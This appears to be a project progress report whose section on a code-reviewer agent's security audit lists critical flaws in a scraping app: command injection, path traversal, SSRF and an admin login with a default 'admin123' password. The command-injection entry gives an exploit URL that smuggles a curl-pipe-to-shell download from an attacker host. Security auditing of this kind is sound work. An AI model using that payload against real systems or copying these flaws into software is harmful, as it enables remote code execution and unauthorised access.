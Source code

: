 **Test Artifacts:**
- `api_test_results_1759395659.json`
- `download_pipeline_results_1759395693.json`
- 20+ downloaded test files (~700KB)

---

### 3. Code-Reviewer Agent
**Mission:** Security audit of scraping implementation

**Deliverables:**
- ✅ Created `docs/SECURITY_AUDIT_REPORT.md` (comprehensive security analysis)
- ✅ Identified 15 security vulnerabilities
- ✅ Provided remediation code for all issues
- ✅ Created security testing checklist

**Critical Vulnerabilities Found:**

#### 1. Command Injection (CVSS 9.8) 🔴
**Location:** `scrapers/enhanced_scraper.py:320-355`
```python
# VULNERABLE CODE
cmd = ['yt-dlp', ..., url]  # User-controlled URL
subprocess.run(cmd, ...)

# EXPLOITATION
url = "https://youtube.com/watch?v=test; curl attacker.com/shell.sh | sh"
```

**Impact:** Remote code execution

#### 2. Path Traversal (CVSS 8.6) 🔴
**Location:** `working_media_downloader.py:319-393`
```python
# VULNERABLE CODE
source_dir = os.path.join(self.download_dir, source)  # Not validated
filename = os.path.basename(parsed_url.path)  # Path traversal possible
```

**Impact:** Arbitrary file write, system compromise

#### 3. SSRF (CVSS 8.5) 🔴
**Location:** `scrapers/enhanced_scraper.py:50-230`
```python
# VULNERABLE CODE
response = self.session.get(search_url, ...)  # No URL validation
urls.append(url)  # No domain validation
```

**Impact:** Access to internal services, cloud metadata

#### 4. Authentication Bypass (CVSS 9.1) 🔴
**Location:** `auth.py:1026-1159`
```python
# VULNERABLE CODE
@auth_bp.route("/test-admin-quick")  # GET request!
def test_admin_quick_login():
    password = request.args.get("password", "")  # In URL!
    test_admin_password = os.environ.get("TEST_ADMIN_PASSWORD", "admin123")
```
